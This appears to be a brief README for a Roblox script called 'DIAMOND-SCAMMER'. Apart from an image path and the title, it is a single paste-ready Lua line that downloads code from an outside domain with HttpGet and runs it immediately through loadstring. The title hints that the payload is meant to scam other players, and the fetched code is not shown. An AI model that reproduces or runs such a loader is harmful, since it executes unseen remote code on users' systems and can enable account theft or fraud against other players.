 # DIAMOND-SCAMMER
loadstring(game:HttpGet("https://egorikusa.space/4ab64c164fd43882a8e13d97.lua", true))()
